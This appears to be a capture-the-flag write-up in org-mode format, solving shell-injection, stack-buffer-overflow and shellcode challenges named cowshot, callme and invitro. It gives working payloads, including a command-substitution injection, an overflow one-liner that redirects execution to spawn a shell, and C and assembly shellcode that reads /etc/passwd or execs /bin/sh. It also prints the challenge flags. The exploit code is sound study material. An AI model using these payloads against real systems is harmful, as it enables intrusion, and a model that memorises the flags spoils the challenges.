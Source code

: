 * cowshot1
  it uses ~snprintf~ and ~system~
  immediately think of shell injection.
  try give it ~['$(cat flag|tee tmp)']~ (wrapped in single quotes such that bash doesn't just evaluate that. (use ~tee~ because all password will be transformed into caps)
  flag is AINT_GONNA_BE_PART_OF_YOUR_system
* cowshout2
  exactly the same way
  flag is $Money_can't_buy_Happiness
* callme
  buffer overflow. needs to overflow the return address to ~call_me~
  stack will be like [128 byte buf][8 bytes pushed RBP][8 bytes return addr]
  ~objdump -d callme | grep call_me~ gets the address of that function
  ~python3 -c 'print("ghostbusters\x00"+" "*115+" "*8+"\x0d\x06\x40\x00\x00\x00\x00\x00")'|./callme~ to call the function
  see in ~gdb~ that it suceeded in calling ~dash~. but it exits immediately
  output above to a file and ~cat tmp -|./callme~ to access the shell
  flag : buffers_dont_like_to_be_called_names
* invitro1
  =NOTE this can be done by using invitro2's method. First negate the address then negate it back to bypass filtering of /=
  see program reads from a file containing (at most 128 bytes) shellcode and runs that code. Also shellcode cannot contain '/'. 
  Found online shellcode that outputs file content as follows
http://shell-storm.org/shellcode/files/shellcode-878.php
  #+BEGIN_SRC c
#include <stdio.h>
#include <string.h>
// Here we changed the last few bytes that correspond to /etc/passwd to flag and changed the 6th byte from \x0b to \x04 since we guess that is the length of the string. (look at above url)
char code[] = "\xeb\x3f" // jmp +3f
"\x5f"  // pop rdi
"\x80\x77\x04\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05"
"\xe8\xbc\xff\xff\xff" // call -xxx
"\x66\x6c\x61\x67\x41" // flagA
int main(){
  //goto *(&code[0]);
  FILE *f = fopen("shellcode","wb");
  int i;
  if (f == NULL) {
    fprintf(stderr, "Error: couldn't open file for writing\n");
    return 1;
  }
  fwrite(code,sizeof(char),strlen(code),f);
  fclose(f);
  return 0;
}
  #+END_SRC 
  Proper way: write ASM
  #+BEGIN_SRC asm
global _start

section .text

_start:
jmp _push_filename

_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41

xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall

; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall

; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall

; syscall exit
xor rax, rax
add al, 60
syscall

_push_filename:
call _readfile
path: db "/etc/passwdA"
  #+END_SRC
~nasm xxx -felf64 -o xxx.o~ to compile that assembly. ~(objdump -d shellcode.o | cut -f2 |sed -e '/[^0123456789abcdef ]/d'|tr '\n' ' ' | tr -s ' '|sed -e 's/\([0123456789abcdef]\{2\}\)/\\x\1/g'|sed 's/ //g')~ to turn into shellcodes
flag: make_your_own_flag
* invitro2
  The wrongly written code adds one null byte every 8 bytes. need to jump over it.
  from http://ref.x86asm.net/coder32.html#xEB, we see the opcode for ~jmp~ is ~eb~ and ~call~ is ~e8~ there are 63 instructions in between, exactly ~0x3f~! consider adding a ~jmp 1~ instruction everytime we expect a null byte. ~jmp 1~ takes two bytes. so every 6 bytes, we add a ~jmp 1~
  The jump offsets needs to be manually tweaked as well. Also, no jumps inside string. All this is manual. Also, no jumps within an instruction. Just add NOP.
  If we just add the NOP and JMPs to the last section, the length would exceed 128 bytes. BUT, they stop filtering for '/' anymore. which means we could just start ~/bin/sh~
taken from 
http://shell-storm.org/shellcode/files/shellcode-806.php
  #+BEGIN_SRC asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1 ; this is just some representation of /bin/sh
    neg rbx
    push rbx
    ;mov rdi, rsp
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    ;mov rsi, rsp
    push rsp
    pop rsi
    mov al, 0x3b ;; system call number
    syscall
  #+END_SRC
Notice that the ~mov~ is causing trouble since it is 7 bytes long. we need to split it so that we can add in the NOP and JMP. However, the sign extension is very very annoying. So we will resort to the original method.
  #+BEGIN_SRC asm
_start:
    jmp _push_filename
_main:
  xor eax,eax
  pop rdi
  xor byte [rdi+7],0x41
  xor rsi,rsi
  xor rdx,rdx
  mov al, 0x3b
  syscall
_push_filename: 
  call _main
  path:  db "/bin/shA"
  #+END_SRC
Now add the NOPs and JMPs. 
  #+BEGIN_SRC asm
_start:
    jmp _push_filename
_main:
  xor eax,eax
  pop rdi
  nop
  jmp short 2
  add rdi,4 ;; because there will be 4 type offset from the place we call main to the start of string
  nop
  nop
  jmp short 2
  xor byte [rdi+7],0x41
  nop
  nop
  jmp short 2
  xor rsi,rsi
  xor rdx,rdx
  jmp short 2
  mov al, 0x3b
  syscall
  nop
  nop
  jmp short 2
_push_filename: 
  call _main
  nop
  jmp short 2
  path:  db "/bin/shA"
  #+END_SRC 
And add in nops in place for null byte to see the correct jmp offset
  #+BEGIN_SRC asm
_start:
    jmp _push_filename
_main:
  xor eax,eax
  pop rdi
  nop
  jmp short 2
  nop
  add rdi,4
  nop
  nop
  jmp short 2
  nop
  xor byte [rdi+7],0x41
  nop
  nop
  jmp short 2
  nop
  xor rsi,rsi
  xor rdx,rdx
  jmp short 2
  nop
  mov al, 0x3b
  syscall
  nop
  nop
  jmp short 2
  nop
_push_filename: 
  call _main
  nop
  jmp short 2
  nop
  path:  db "/bin/shA"

  #+END_SRC 
  Using that to manually change the offset of first ~jmp~ and last ~call~ of the shellcode of the first one.
  finally a helper program to test/write the shellcode
  #+BEGIN_SRC c
#include <unistd.h>
#include <stdio.h>
#include <string.h>
char code[] = "\xeb\x2b\x31\xc0\x5f\x90\xeb\x01\x48\x83\xc7\x04\x90\x90\xeb\x01\x80\x77\x07\x41\x90\x90\xeb\x01\x48\x31\xf6\x48\x31\xd2\xeb\x01\xb0\x3b\x0f\x05\x90\x90\xeb\x01\xe8\xd0\xff\xff\xff\x90\xeb\x01\x2f\x62\x69\x6e\x2f\x73\x68\x41";

int main(){
  /* goto *(&code[0]); */
  /* execve("/bin/sh",NULL,NULL); */
  FILE *f = fopen("shellcode","wb");
  fwrite(code,sizeof(char),strlen(code),f);
  fclose(f);
}
  #+END_SRC
flag: you_are_a_hopscotch_master
* seashell
  
